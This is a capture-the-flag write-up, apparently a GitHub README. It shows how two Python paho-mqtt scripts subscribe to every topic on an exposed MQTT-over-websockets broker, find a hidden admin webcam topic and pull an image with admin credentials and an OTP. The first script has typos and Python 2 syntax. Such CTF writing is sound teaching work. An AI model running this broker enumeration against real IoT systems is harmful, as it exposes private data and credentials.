




# time for h4x0rpsch0rr?

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)



Checking out the website we found two pages.


Trying to login to the admin panel did not do much. Gave up pretty quickly on that and moved on to some other interesting stuff.



We find in the source code of the first page that it's running mqtt over websockets.

    This is wikipedias definition of MQTT:
    A lightweight messaging protocol for small sensors and mobile devices, optimized for high-latency or unreliable networks, enabling a Smarter Planet and the.


 Cool. Let's use python and see what we can do with this.


We can use this script to subscribe to all topics and all sys topics. This might reveals some good stuff we can use.

```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   client.subscribe('#', qos = 1)        # Subscribe to all topics
   client.subscribe('$SYS/#')            # Subscribe to sys topics 

def on_message(client, userdata, msg):
    print "Topic %s, %s" % (client.topic, clinet.payload)
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60) 
client.loop_forever()
```

Running the script we get a hidden topic in one of the payloads called `$internal/admin/webcam`. Subscribing to that topic and dumping the payload with this code:
```python
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
    client.subscribe("$internal/admin/webcam")

def on_message(client, userdata, msg):
    print msg.payload
    exit()
client = mqtt.Client(transport="websockets")
client.on_connect = on_connect
client.on_message = on_message
client.connect('159.69.212.240', 60805, 60)
client.loop_forever()
```

Running the script and dumping the payload to a file:
```bash
$ python mqtt_script.py > output
```

Running `file` on it reveals an image..
```bash
$ file flag.png 
flag.png: PNG image data, 490 x 202, 8-bit/color RGB, non-interlaced
```

Opening the image we get the following:



Okay, we now have the username, password and the OTP token! Lets login on the admin page.




#### References:

https://morphuslabs.com/hacking-the-iot-with-mqtt-8edaf0d07b9b
